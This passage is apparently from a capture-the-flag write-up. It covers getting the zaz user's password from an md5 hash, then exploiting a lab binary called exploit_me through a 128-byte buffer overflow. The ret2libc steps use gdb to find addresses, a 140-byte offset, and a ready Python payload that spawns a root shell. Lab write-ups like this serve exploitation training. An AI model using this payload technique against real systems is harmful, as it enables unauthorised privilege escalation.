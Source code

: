 After encrypting the word 'SLASH' with md5sum, we obtain the password for the *zaz* user:

```
646da671ca01bb5d84dbb5fb2238dc8e
```

## Exploiting zaz

We have a file named *exploit_me* and a directory named *mail*. After inspecting the *mail* directory, we discover that it contains three empty files. This leaves us with the *exploit_me* file, which we confirmed to be a binary using the **file** command. So, we decompile it to obtain its source code to identify what we can exploit.

### Time to *exploit*

In the [source code](scripts/exploit_me_source.c), we observe that the program accepts a single argument, which it copies into a buffer of size 128. Given this, we can provide an argument that exceeds 128 characters to overflow the buffer. Hence, this overflow allows us to exploit the vulnerability using a `Ret2libc` attack technique.

To proceed, we need to obtain the memory addresses of **system()** and the file **/bin/sh**. This will allow us to overwrite the return address, executing the *system()* function with */bin/sh*, thereby granting us a shell prompt.

First, we'll use **gdb** to retrieve the address of the *system()* function.

```
> b main
> r
> p system
```

We have obtained the *system()* function address: `0xb7e6b060`. Now, let's proceed to find the address of the */bin/sh* file in the libc, using **gdb** as well.

```
i proc map
```

We can see that the libc starts at `0xb7e2c000` and ends at `0xb7fd2000`. Using gdb, we search for */bin/sh* within this address range:

```
find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
```

And that gives us the address for */bin/sh*: `0xb7f8cc58`.\
Now, to determine the exact point where our input overflows into the return address on the stack, we need to identify the offset. Using this [website](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) we find that the offset is at 140.

Finally, we will construct the payload using all the information we've gathered, following this pattern:\
`Offset + adrress of system + "DUMM" + address of /bin/sh`\
This gives:

```sh
./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "DUMM" + "\x58\xcc\xf8\xb7"')
```

Executing this gives access to the **root** user!